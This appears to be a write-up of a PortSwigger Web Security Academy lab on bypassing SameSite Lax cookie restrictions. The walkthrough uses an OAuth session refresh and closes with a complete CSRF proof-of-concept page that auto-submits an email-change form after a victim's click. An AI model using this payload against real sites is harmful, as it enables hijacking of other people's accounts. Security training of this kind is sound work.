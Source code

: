 
# SameSite Lax bypass via cookie refresh

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

The lab supports OAuth-based login. You can log in via your social media account with the following credentials: wiener:peter

Note: The default SameSite restrictions differ between browsers. As the victim uses Chrome, we recommend also using Chrome (or Burp's built-in Chromium browser) to test your exploit.

Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

Browsers block popups from being opened unless they are triggered by a manual user interaction, such as a click. The victim user will click on any page you send them to, so you can create popups using a global event handler as follows:

```
<script>
    window.onclick = () => {
        window.open('about:blank')
    }
</script>
```

---------------------------------------------

References: 

- https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions




![img](images/SameSite%20Lax%20bypass%20via%20cookie%20refresh/1.png)

---------------------------------------------

There is an update email function:



![img](images/SameSite%20Lax%20bypass%20via%20cookie%20refresh/2.png)


It is a POST request:



![img](images/SameSite%20Lax%20bypass%20via%20cookie%20refresh/3.png)


It is not possible to change the method to GET:



![img](images/SameSite%20Lax%20bypass%20via%20cookie%20refresh/4.png)


When logging in we get redirected to the subdomain "oauth":



![img](images/SameSite%20Lax%20bypass%20via%20cookie%20refresh/5.png)


This is generated with an url like:

```
https://oauth-0a6f009504061a2780d1702b026c00f7.oauth-server.net/auth?client_id=erw3xdeohdsu1g89oaqu0&redirect_uri=https://0a72005004831ac38087729700fb0018.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email
```

This request needs some parameters like client_id or it will fail:



![img](images/SameSite%20Lax%20bypass%20via%20cookie%20refresh/6.png)


From the Portswigger we know that “completing an OAuth-based login flow may result in a new session each time as the OAuth service doesn't necessarily know whether the user is still logged in to the target site”, so we must find a way to call this Oauth service, even when we dont know the client id value of the victim user.

Inspecting the requests, it is possible to generate a new session accessing "/social-login" when already logged:





![img](images/SameSite%20Lax%20bypass%20via%20cookie%20refresh/7.png)
![img](images/SameSite%20Lax%20bypass%20via%20cookie%20refresh/8.png)


Take the PoC generated by Burp for the POST request to update the email address and add the code so it executes when the victim clicks, so it open /social-login, wait 10 seconds and then submit the form:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a72005004831ac38087729700fb0018.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test77&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
	    window.onclick = () => {
	        window.open('https://0a72005004831ac38087729700fb0018.web-security-academy.net/social-login');
            setTimeout(submit, 10000);
			function submit(){			
				history.pushState('', '', '/');
		  		document.forms[0].submit();    	
      		}
	    }      
    </script>
  </body>
</html>
```